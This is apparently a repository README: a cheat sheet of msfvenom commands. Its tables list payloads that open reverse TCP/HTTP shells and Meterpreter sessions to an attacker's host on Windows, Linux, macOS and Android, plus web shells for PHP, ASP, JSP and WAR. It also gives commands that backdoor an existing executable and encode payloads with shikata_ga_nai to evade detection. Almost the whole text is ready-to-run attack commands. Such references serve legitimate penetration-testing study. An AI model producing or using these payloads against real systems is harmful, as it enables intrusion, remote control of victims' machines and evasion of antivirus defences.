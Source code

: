 # Msfvenom-Cheat-Sheet
A list of msfvenom commands

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(Your IP/DNS) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |
